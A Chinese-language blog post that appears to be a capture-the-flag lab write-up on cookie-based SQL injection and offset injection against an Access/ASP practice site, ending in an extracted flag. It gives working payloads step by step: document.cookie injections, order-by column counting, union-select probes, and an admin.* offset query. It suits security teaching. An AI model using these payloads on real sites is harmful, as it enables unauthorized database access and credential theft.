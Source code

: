 ```yaml
---
layout: post
title: SQL注入-偏移注入
categories: [SQL注入, 安全]
description: some word here
keywords: SQL注入
---
```


# 偏移注入

cookie 注入是类似于 POST 或者 GET 传参方式的一种。在 post 或 get 传入参数被反制的时候，可以尝试使用 cookie 注入。

常见的修改 cookie 值的方式有以下几种

1. 浏览器，开发者工具 ，console 控制台。
	+ `documents.cookie="id=171"`
	+ `documents.cookie="id="+escape("171 order by 11")` 。 其中 `escape` 为 js 函数， 作用是进行 url 编码。
2. 浏览器插件
3. burpsuite 抓包修改


# access 数据库

1. access 本身没有库的概念， 更像是 **表的集合**
2. access 本身没有系统自带库， 不能像 mysql 那样通过 information_schema 查询用户信息。 因此大多情况下只能通过爆破手段获取信息。


## 靶场

> https://hack.zkaq.cn/battle/target?id=bd45ae05e752d860


### 探测注入

```
http://59.63.200.79:8004/shownews.asp?id=171 and 1=2
```

![](https://nc0.cdn.zkaq.cn/md/8461/4722d484f7e75251b91aab6d356381bc_60560.png)

通过报错可以确认， 网站做了一定反制， 禁止了常用的注入字段。

### 测试 cookie

使用浏览器开发者工具，尝试 cookie 注入

```bash
# 1. 删除地址栏中的 id 参数， 转而使用 cookie 传入
http://59.63.200.79:8004/shownews.asp

## console
document.cookie="id=171"
```

![](https://nc0.cdn.zkaq.cn/md/8461/d32a58feb653f16fc7c5e97bae600ef3_62109.png)

页面显示正常， 存在 cookie 注入可能性

**探测显示点**

```
# console
document.cookie="id="+escape("171 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin")
```

![](https://nc0.cdn.zkaq.cn/md/8461/6226b8ae26b7b23b0bc2efbdded1b745_34016.png)

显示点为 `2,3`

使用以下联合查询，发现无法实现偏移注入。 

```sql
union select *,1,2,3,4 from admin
```

> 判断： admin 的字段大于 10 ，所以无法 union 实现。

本则， 开发逻辑是相同的原则， 尝试其他页面是否可以注入， 在

**产品展示页面**， 字段数有 26个。

http://59.63.200.79:8004/ProductShow.asp

```
document.cookie="id="+escape("105 order by 26")
```

**寻找显示点**

```bash
document.cookie="id="+escape("105 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26 from admin")
```

结果为 3，5，7
![](https://nc0.cdn.zkaq.cn/md/8461/e8169801dd589d514bd2088039f627ea_24869.png)

探测 admin 表字段数

```bash
document.cookie="id="+escape("105 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,* from admin")
```

成功，表示 admin 有16个字段。


通过 三次偏移 (`select *`, `select 1,`, `select 1,2,*`)  得到计数如下。

![](https://nc0.cdn.zkaq.cn/md/8461/c8f140c556d0e1fc936d2f934fc61eb5_52580.png)

这些连续的数字也像是16进制编码。

#### 分析网站远吗

通过对比发现， 除了 3，5，7 有变化之外， 显示的图片也出错了。

![](https://nc0.cdn.zkaq.cn/md/8461/262656d2fa2322e923a610ea0dc189d3_96412.png)

或许，这里也是一个注入点。

重新构造token， 方便搜索

```
document.cookie="id="+escape("105 and 1=2 union select 10001,10002,10003,10004,10005,10006,10007,10008,10009,100010,100011,100012,100013,100014,100015,100016,100017,100018,100019,100020,100021,100022,100023,100024,100025,100026 from admin")
```

**查看网页源代码**

```html
 <a href="100025" target="_blank"><img src=100025 width="450" height="350" border="0" style="BORDER-LEFT-COLOR: #cccccc; BORDER-BOTTOM-COLOR: #cccccc; BORDER-TOP-COLOR: #cccccc; BORDER-RIGHT-COLOR: #cccccc" ></a>
```

![](https://nc0.cdn.zkaq.cn/md/8461/c98f82089563ebbdd2dff7108017bfd8_41835.png)

发现原本图片问题，本应该是 URL 的地方也是注入点。并且位置偏后


> 浪费了大把时间猜测

**sql语句要写  `admin.*` 才有结果**， 语法结构和 mysql 还有出入。


```
document.cookie="id="+escape("105 and 1=2 union select 1,2,3,4,5,6,7,8,9,admin.*,23 from admin")
```

```html
<a href="
	zkaq{f0e12dafb6}
" target="_blank"><img src=zkaq{f0e12dafb6} width="450" height="350" border="0" style="BORDER-LEFT-COLOR: #cccccc; BORDER-BOTTOM-COLOR: #cccccc; BORDER-TOP-COLOR: #cccccc; BORDER-RIGHT-COLOR: #cccccc" ></a>

```
